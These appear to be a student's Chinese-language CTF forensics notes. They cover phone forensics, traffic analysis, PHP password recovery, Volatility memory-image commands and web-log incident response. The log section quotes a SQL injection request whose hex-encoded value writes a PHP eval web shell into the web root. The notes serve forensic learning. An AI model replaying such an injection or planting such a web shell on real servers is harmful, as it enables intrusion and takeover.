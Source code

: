 ## [2022蓝帽杯]手机取证1
### 思路和过程：
- 全程从虚拟环境中查找图片627604C2-C586-48C1-AA16-FF33C3022159.PNG的图片，结果会找到几个路径，打开后可以查看其分辨率；

## [2023陇剑杯]Wireshark1_1
### 工具wireshark
### 思路和过程：
- 和正常一样的打开流量包查看，题目要被入侵的主机ip，寻找流量交互，把交互最频繁的几个ip仔细检查并提交（虽然第一个就提交错了）但是因为没有次数限制所以可以多尝试提交答案；

## [蓝帽杯 2022 初赛]网站取证_2---请提交数据库连接的明文密码
### 工具：在线php工具
### 思路：
- 打开www文件查看代码，题目要求找到数据库的连接密码，那么打开database这个文件，打开后可以看到数据库的连接信息
![](./查看数据库.png)
- 其中密码部分调用了一个加密函数my-encrypt，接着去打开这个php文件，由于个人不是很懂php，所以去网络查看参考资料，使用在线的php工具可以添加输出语句echo my_encrypt()来使得结果输出
- 得到flag为KBLT123；
### 思考：
- 在使用在线php工具时老是没有结果或者错位，最后发现是版本号选择不对...

## [OtterCTF 2018]General Info----------------参考网络资料
### 思路和过程：
- 首先查看一下镜像的信息
python2 vol.py -f /home/kali/Desktop/OtterCTF.vmem imageinfo
- 查看一下注册表
python2 vol.py -f /home/kali/Desktop/OtterCTF.vmem --profile=Win7SP1x64 hivelist
- 主机名会出储存在\REGISTRY\MACHINE\SYSTEM中的ControlSet001\Control\ComputerName\ComputerName里面
python2 vol.py -f /home/kali/Desktop/OtterCTF.vmem --profile=Win7SP1x64 printkey -o 0xfffff8a000024010 -K "ControlSet001\Control\ComputerName\ComputerName"
- 通过netscan来查看网络
python2 vol.py -f /home/kali/Desktop/OtterCTF.vmem --profile=Win7SP1x64 netscan

## [应急响应]welog1
### 工具：ai，cyberchef
### 思路和过程：
- 根据以前做过的日志题目，使用编辑器打开日志信息并仔细查看有问题的地方（一般是php或者长度非常长的信息语句），定位到可疑的一些语句192.168.150.1 - - [10/Mar/2023:08:19:46 +0000] "GET /index.php?id=0%27%20union%20select%201,0x223c3f70687020406576616c28245f504f53545b273362393064373564653234386365353562363665386533303837336236303030275d293b3f3e22,3,4%20into%20outfile%20%22/var/www/html/ShEll1.php%22; HTTP/1.1" 200 1194 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.0.0 Safari/537.36"，然后打开ai模型给他让他分析这是什么，得到这是一种sql注入，放进编码网站中进行编码就可以得到注入的php，其中P的OST参数可以尝试提交flag。

## [陇剑杯 2021]SQL注入
### 学习盲注
